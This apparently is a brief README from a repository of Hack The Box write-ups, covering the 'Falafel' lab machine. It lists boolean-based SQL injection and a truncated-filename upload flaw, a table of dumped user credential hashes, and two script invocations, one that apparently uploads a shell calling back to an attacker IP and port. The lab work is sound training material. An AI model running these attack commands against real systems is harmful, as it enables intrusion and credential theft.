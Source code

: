 # Falafel
[Falafel Machine](https://www.hackthebox.com/machines/falafel)

Identified Vulnerability:
- Boolean Based SQL Injection
- Unrestricted File Upload (Truncated file name)

Database Table
| ID | role   | password                                    | username |
|----|--------|---------------------------------------------|----------|
| 1  | admin  | 0e462096931906507119562988736854            | admin    |
| 2  | normal | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) | chris    |


```
python3 dump.py -u admin -id 1
```
```
python3 upshell.py -t falafel.htb -ip 10.10.x.x -p 5555
```
